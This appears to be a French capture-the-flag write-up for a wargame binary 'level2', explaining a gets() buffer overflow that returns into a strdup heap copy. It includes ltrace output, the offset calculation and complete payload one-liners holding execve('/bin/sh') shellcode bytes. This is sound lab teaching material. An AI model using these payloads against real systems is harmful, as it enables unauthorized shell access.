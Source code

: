 # level2

On disas et on voit qu'on a un main qui ne fait pas grand chose et qui call la fonction `p()`

La fonction `p()` verifie si l'adresse de retour contient 0xb

adresse system : `0xb7e6b060`
Pas bon du tout

strdup : heap retourne une adresse differente de 0xb
adresse return strdup : `0x804a008`
Peut-etre quelque chose a faire avec le retour de strdup ?

```
$> ltrace ./level2

__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550,0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)         = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
) = 0xbffff6fc
puts("")                   = 1
strdup("")                 = 0x0804a008
```


shell code /bin/sh
`http://shell-storm.org/shellcode/files/shellcode-575.html`

Ok donc maintenant qu'on a ce shell code qui fait un appel system de `execve("/bin/sh")`

Il va falloir savoir quoi en faire et comment l'exploiter

On sait qu'on peut faire un BoF avec gets et on sait qu'on doit utiliser le retour de strdup sinon le programme rentre dans la comparaison avec 0xb et exit

On modifie `ebp+4` avec l'adresse de retour de strdup pour que le flux d'execution du retour de la fonction main pointe vers notre shell code
L'execution de code en memoire etant active nous pouvons donc executer le shell code

`ebp+4` etant toujours l'adresse de retour de la frame actuelle

Il nous faut notre offset pour modifier `ebp+4`

`https://wiremask.eu/tools/buffer-overflow-pattern-generator/`

Offset 80

Niquel, maintenant on sait que notre shell code fait 21
On soustrait 21 a 80 = 59

On aura un padding de 59 bytes apres notre shell code avant d'ecrire l'adresse de retour de strdup

On va mettre notre shell code au debut du payload etant donne que l'adresse de retour est un pointeur sur notre commande

Donc pour resume 

`payload = shellcode + padding 59 + addr retour strdup`

Testons tout ca :

Avec gdb
```
r < <(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"')
```

en ligne de commande
```
(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2 
```
